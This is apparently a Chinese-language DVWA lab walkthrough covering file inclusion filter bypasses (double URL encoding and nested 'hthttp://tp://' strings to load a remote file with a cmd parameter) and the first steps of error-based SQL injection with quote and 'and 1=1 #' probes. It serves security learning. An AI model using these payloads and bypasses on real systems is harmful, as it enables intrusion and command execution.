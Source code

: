 　　medium级别下，本地文件包含漏洞也无任何过滤，试试远程文件包含，http://<span></span>192.168.2.161/1.txt&cmd=ls，执行后发现无任何反应，产生过滤。可以考虑转换成url编码进行绕过
　　![JtS5tK.png](https://s1.ax1x.com/2020/04/22/JtS5tK.png)
　　执行后，发现url部分'http'被解码了，也被过滤了
　　![JtSzh8.png](https://s1.ax1x.com/2020/04/22/JtSzh8.png)
　　可以尝试双层编码，即刚刚的编码再次编码一次
　　![JtpDHI.png](https://s1.ax1x.com/2020/04/22/JtpDHI.png)
　　双层后url已经非常长了，复制后再次提交，还是无任何反应。猜测可能只对http头部分过滤成空字符，于是再次构造payload为<span>httphttp://<span></span>192.168.2.161/1.txt&cmd=ls</span>，还是无任何反应，改为http://<span>http://<span></span>192.168.2.161/1.txt&cmd=ls</span>，执行后也无任何反应。有点神奇，试试改变http://的位置后变为hthttp<span></span>://tp://192.168.2.161/1.txt&cmd=ls后，命令成功执行说明过滤的很可能是'http://'这一部分。
　　源码为：

```php
<?php 
    $file = $_GET['page']; // The page we wish to display 
    // Bad input validation 
    $file = str_replace("http://", "", $file); 
    $file = str_replace("https://", "", $file);         
?>
```
　　将http:// https:// 过滤掉，查阅str_replace函数，发现此函数是区分大小写的，所以我重新构造url为HTTP://<span></span>192.168.2.161/1.txt&cmd=ls，发现还是不能成功执行，这个是我的疑惑点所在
　　high级别，直接查看源码，因为过不了不浪费时间

```php
<?php   
    $file = $_GET['page']; //The page we wish to display  
    // Only allow include.php 
    if ( $file != "include.php" ) { 
        echo "ERROR: File not found!"; 
        exit; 
    }    
?>
```
　　写的很清楚了，url中只能有include.php，所以不存在文件包含漏洞

### SQL Injection
　　SQL注入，我不会非常详细的写手工注入过程，因为实在是太长，太繁琐了。讲讲我理解的漏洞产生原理。最好你有sql命令基础。将用户提交的值带进sql查询语句，由于没有过滤用户提交的字符，从而导致的sql注入攻击。
　　<b>按照注入点类型来分类</b>
　　数字型注入点、字符型注入点、搜索型注入点
　　<b>按照数据提交的方式来分类</b>
　　GET 注入、POST 注入、Cookie 注入、HTTP 头部注入
　　<b>按照执行效果来分类</b>
　　基于布尔的盲注、基于时间的盲注、基于报错注入、联合查询注入、堆查询注入、宽字节注入
　　这里的环境是报错注入，说的有点含糊直接看源码。
　　low级别
　　![JNiUNn.png](https://s1.ax1x.com/2020/04/22/JNiUNn.png)
　　源码可知，创建了一个id变量，将这个变量带入SELECT first_name, last_name FROM users WHERE user_id = '$id'中，如果我输入1就是user_id = '1'，查询uer_id是1的用户信息
　　![JNixv8.png](https://s1.ax1x.com/2020/04/22/JNixv8.png)
　　这只是我合法的提交，如果我提交一个'上去，查询语句就变成user_id='''，在sql语句中’号或者"号都是成对出现的如，'',""，这样所以这会使查询语句报错。当然你可能会问万一有用户id是'呢，所以我们还要多次测试验证确实有sql注入语句。
　　第一次提交'
　　![JNkx0g.png](https://s1.ax1x.com/2020/04/22/JNkx0g.png)
　　出现sql查询语句出错，这样有报错信息的叫sql报错注入，而且可以看到我们只提交了'，报错了near '''''，很明显就是引号不配对造成的错误。
　　第二次提交1' and 1=1 # ，完整的查询语句就是SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=1 #'
　　#在sql语句是注释意思，and or 这是基本的逻辑关系，但凡有点数学逻辑基本能懂1=1这种是真，所以整条逻辑就是真
　　![JNE3Ps.png](https://s1.ax1x.com/2020/04/22/JNE3Ps.png)
　　id就变成了提交信息去了，很明显存在sql注入攻击。提交改为1' and 1=2 #，提交后无任何回显。因为1=2就是假，又是and整条语句逻辑上就是假，所以就不执行sql语句。